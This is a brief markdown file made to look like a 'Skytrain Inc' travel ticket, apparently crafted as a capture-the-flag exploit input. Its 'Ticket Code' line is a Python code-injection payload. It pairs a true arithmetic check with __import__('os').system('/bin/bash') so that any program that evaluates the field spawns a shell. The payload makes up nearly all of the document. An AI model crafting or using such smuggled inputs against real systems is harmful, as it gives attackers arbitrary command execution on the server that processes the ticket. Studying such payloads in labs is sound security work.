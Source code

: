 # Skytrain Inc
## Ticket to 
__Ticket Code:__
**116 + 4 == 120 and __import__('os').system('/bin/bash') == False
